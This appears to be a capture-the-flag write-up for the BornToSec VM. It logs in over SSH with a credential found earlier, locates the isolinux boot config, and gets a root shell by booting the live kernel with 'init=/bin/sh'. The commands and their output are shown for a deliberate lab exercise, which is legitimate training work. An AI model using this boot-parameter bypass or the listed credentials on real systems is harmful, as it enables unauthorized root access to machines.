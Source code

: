# WRITEUP2

When we saw that the vm was booting in linux system, we search a way to modify the booting, but we don't have `GRUB`, the vm is working on syslinux.

After some research, we found a way to find boot users with a cfg file 
[syslinux](https://wiki.syslinux.org/wiki/index.php?title=Config)

We need to have a ssh user to search this cfg ile, so we can use the first user find in writeup1, `laurie` and the password `330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4` :

```bash
> ssh laurie@{IP}
        ____                _______    _____
       |  _ \              |__   __|  / ____|
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
> laurie@{IP} password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
> ls
bomb  README

> find / -type f -name *.cfg | grep -v denied > file
> cat file

/boot/grub/grub.cfg
/etc/dpkg/dpkg.cfg
/etc/perl/Net/libnet.cfg
/usr/share/doc/grub-common/examples/grub.cfg
/usr/share/squirrelmail/locale/timezones.cfg
/usr/share/update-manager/DistUpgrade.cfg
/usr/share/update-manager/additional_pkgs.cfg
/usr/share/update-manager/demoted.cfg
/usr/share/update-manager/mirrors.cfg
/usr/share/update-manager/removal_blacklist.cfg
/cdrom/isolinux/isolinux.cfg
/rofs/boot/grub/grub.cfg
/rofs/etc/dpkg/dpkg.cfg
/rofs/etc/perl/Net/libnet.cfg
/rofs/usr/share/doc/grub-common/examples/grub.cfg
/rofs/usr/share/squirrelmail/locale/timezones.cfg
/rofs/usr/share/update-manager/DistUpgrade.cfg
/rofs/usr/share/update-manager/additional_pkgs.cfg
/rofs/usr/share/update-manager/demoted.cfg
/rofs/usr/share/update-manager/mirrors.cfg
/rofs/usr/share/update-manager/removal_blacklist.cfg
```
we find isolinux.cfg : 

```bash
> cat /cdrom/isolinux/isolinux.cfg

default live
prompt 0
timeout 0

menu title BornToSec
menu background splash.png
menu color title 1;37;44 #c0ffffff #00000000 std

label live
  menu label live - boot the Live System
  kernel /casper/vmlinuz
  append  file=/cdrom/preseed/custom.seed boot=casper initrd=/casper/initrd.gz quiet splash --
```

We can see that the default user is live, so we can use a tip found on stack overflow

[booting into a kernel image](https://unix.stackexchange.com/questions/151969/booting-into-a-kernel-image)

We found the way to launch the boot manager from syslinux, hold shift or alt when the vm is starting then we use `init=/bin/sh` to force the kernel to launch with live and execute the command:

```bash
> boot: live init=/bin/sh
error: unexpectedly disconnected from boot status daemon
Using CD-ROM mount point /cdrom/
Identifying.. [f50981139b1caeeed8e022c046838eaf1-2]
Scanning disc for index files..
/bin/sh: 0: can't access tty; job control turned off
> # whoami
root
```

